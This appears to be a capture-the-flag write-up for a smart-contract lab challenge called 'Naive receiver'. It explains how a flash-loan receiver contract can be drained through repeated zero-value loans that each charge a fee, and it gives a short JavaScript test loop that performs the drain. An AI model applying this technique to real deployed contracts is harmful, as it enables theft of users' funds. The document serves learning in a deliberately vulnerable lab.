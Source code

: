 # Challenge #2 - Naive receiver   
 There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

 You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

 Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;) 

## Exploit 
The user contract ``FlashLoanReceiver.sol`` is not checking the ``msg.value`` variable 
when ``recieveEther()`` is called. That way, we can drain his contract by passing a 0 value and 
collecting the ``1 ether`` FEE from the user's contract.   

```js
	it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
		while(await ethers.provider.getBalance(this.receiver.address) != 0){
			await this.pool.flashLoan(this.receiver.address, 0)
		}
    });
```
